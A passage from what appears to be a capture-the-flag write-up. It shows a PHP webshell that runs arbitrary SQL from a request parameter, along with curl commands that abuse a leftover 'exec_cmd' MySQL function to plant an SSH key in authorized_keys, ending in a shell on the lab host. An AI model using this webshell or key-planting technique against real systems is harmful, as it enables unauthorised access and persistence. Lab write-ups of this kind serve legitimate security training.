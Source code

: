    if (isset($_REQUEST['db'])) {
        $conn = new mysqli("localhost", "root", "changethis", "ecom") or die("Connect failed: %s\n". $conn -> error);
        $res = mysqli_query($conn, $_REQUEST['db']);
        while ($row = $res->fetch_row()) {
            foreach ($row as $r) {
                echo $r . " ";
            }
            echo "\n";
        }
    }
    
    ?>
    """
    

It works:

    
    
    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select @@version'
    5.7.30-0ubuntu0.18.04.1 
    

#### exec_cmd

Eventually I checked the `mysql.func` table, which [stores information about
user-defined functions](https://mariadb.com/kb/en/mysqlfunc-table) created
with the `CREATE FUNCTION UDF` statement. The headers are `Name, Ret, dl,
type`:

    
    
    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select * from mysql.func;'
    exec_cmd 0 libmysql.so function 
    

`exec_cmd` isn’t a standard MySQL function, but rather a user defined function
(UDF), perhaps left behind by the attacker. Just knowing the name, it’s worth
a shot to run something. Command output doesn’t seem to come back (seems like
that’s an issue with my shell, as `exec_cmd` does return data, as I’ll show in
the next section), but it does seem to run, as running `ping -c 5` takes about
five seconds to return.

#### Shell

Just like with the webshell, nothing that sends traffic back to my host seems
to work. But I can guess that since the user had a shell added, perhaps
there’s a `.ssh` directory. And it works:

    
    
    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode "db=SELECT exec_cmd('echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /var/lib/mysql/.ssh/authorized_keys');"
    root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
    The authenticity of host '10.10.10.207 (10.10.10.207)' can't be established.
    ECDSA key fingerprint is SHA256:eYvjeWOH3lYrex1T0a/7BQsAv9L4YbZem1T0BGWjtVE.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.207' (ECDSA) to the list of known hosts.
    Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.4
    mysql@compromised:~$
    
